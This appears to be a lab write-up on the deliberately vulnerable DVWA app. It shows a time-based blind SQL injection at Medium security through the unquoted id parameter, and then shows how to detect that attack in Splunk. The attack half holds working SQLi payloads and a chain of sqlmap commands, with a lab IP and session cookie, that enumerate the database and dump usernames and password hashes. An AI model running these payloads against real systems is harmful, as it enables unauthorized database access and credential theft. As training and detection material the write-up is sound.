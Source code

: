 ##  Launching an Attack from Another PC in the LAN:

The Medium level uses a form of SQL injection protection with the function mysql_real_escape_string(). However, due to the SQL query not having quotes around the parameter, this does not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form (see source code).

![image](https://github.com/user-attachments/assets/ba981869-abd4-4b40-9554-9be73e9f1330)

 This code tries to protect against SQL injection using `mysqli_real_escape_string()`. This function escapes special characters in the user input.

But there’s a mistake in the SQL query:

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```
❌ The user input $id is not inside quotes — so attackers can still inject SQL if they use numbers or logical conditions.

so manyone can injecting something like:

```
1 AND SLEEP(5)
```
That becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 AND SLEEP(5);
This is a time-based blind SQL injection, and it works even though you escaped the input.
```

Attackers able to intercept and modify POST data using sqlmap tool .

You're targeting:

```
http://<ip>/DVWA/vulnerabilities/sqli_blind/
```

and the form sends a POST request with parameters like:

```
POST /DVWA/vulnerabilities/sqli_blind/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

id=1&Submit=Submit
```

You want to inject a payload into id that proves SQLi is possible — ideally a time-based blind SQLi.

### Using sqlmap

```
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=YOUR_SESSION_ID" \
--technique=BT \
--level=2 \
--risk=2 \
--batch
```

![image](https://github.com/user-attachments/assets/34b7fb18-ba9c-472b-84ba-e22b468c98c9)

The injection point was confirmed on the id parameter (POST), which is vulnerable to both Boolean-based (id=1 AND 1682=1682) and Time-based (id=1 AND (SELECT SLEEP(5))) blind SQL injection; the backend uses MySQL (MariaDB fork) on Apache 2.4.63 running Debian Linux, and despite being set to Medium security, it is still injectable.

Extract data from dvwa DB:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
--dbs
```

![image](https://github.com/user-attachments/assets/c1c996df-594e-4f5d-8753-bb806893604c)

Found Databases.

Extract Table & User Info:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa --tables
```

![image](https://github.com/user-attachments/assets/519e573b-d747-406e-9edf-c9be196d1315)

Listed tables in dvwa.

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users --columns
```

Then list columns in the users table.

![image](https://github.com/user-attachments/assets/b8653499-fa81-467f-b511-9a710403f910)

Then dump usernames and passwords:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users -C user,password --dump
```

![image](https://github.com/user-attachments/assets/782a129f-ae44-472a-a204-306fe512cdcf)
 
The attack was successful


## Next, we will detect the attack using Splunk

```
host=victim sourcetype="access-too_small" "sqlmap"
```

![image](https://github.com/user-attachments/assets/2b415a36-5af7-437b-a435-7986297bd40b)

From this, we can see that the sqlmap user-agent was used to perform the attack.


```
host=victim sourcetype="access-too_small" "sqlmap" id  SLEEP
```

![image](https://github.com/user-attachments/assets/6dbfb250-d3ec-4fc3-97fb-8b25513897e6)


 1. Time-based Blind SQL Injection Detected

The repeated use of PG_SLEEP(5) in payloads shows deliberate attempts to delay SQL responses:

Examples:

```sql
...AND 9814=(SELECT 9814 FROM PG_SLEEP(5))...
...;SELECT PG_SLEEP(5)--...
...SELECT 3841 FROM (SELECT(SLEEP(5)))...
```
This is a signature of time-based blind SQLi, where delays confirm conditional truth.

2. Automated Tool Used: sqlmap
Every log includes this user-agent:
`
"sqlmap/1.9.2#stable (https://sqlmap.org)"
`
This confirms that an attacker is automating the attack using sqlmap.

3. Vulnerable Parameter: id
Payloads are being injected into the URL parameter id=1, e.g.:

`/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit...`

This suggests the id parameter is not properly sanitized and is vulnerable to SQL injection.

5. Encoding Variants in Payloads
The logs show URL-encoded values, e.g.:

%3D → =

%28 → (

%29 → )

These confirm evasion techniques are being used to bypass simple string matching.

Table Format for easy identifiction-

```
host=victim sourcetype="access-too_small" "sqlmap"
| rex field=_raw "^(?<clientip>\d{1,3}(?:\.\d{1,3}){3})"
| rex field=_raw "\"(?:GET|POST) (?<uri_path>[^\s]+)"
| rex field=_raw "\"(?<useragent>sqlmap[^\"]*)\""
| table _time, clientip, host, useragent, uri_path
```

![image](https://github.com/user-attachments/assets/488144da-c2f7-49ce-b445-cd24ceb4b881)

## 🧾 Summary Table

| Finding           | Details                                                |
|-------------------|--------------------------------------------------------|
| **Attack Type**   | Time-Based Blind SQL Injection                         |
| **Tool Used**     | sqlmap/1.9.2                                           |
| **Vulnerable Param** | `id`                                                |
| **Injection Method** | `SLEEP(5)`, conditional `SELECT`s, nested subqueries |
| **Encoding Technique** | URL-encoding to hide SQLi characters             |







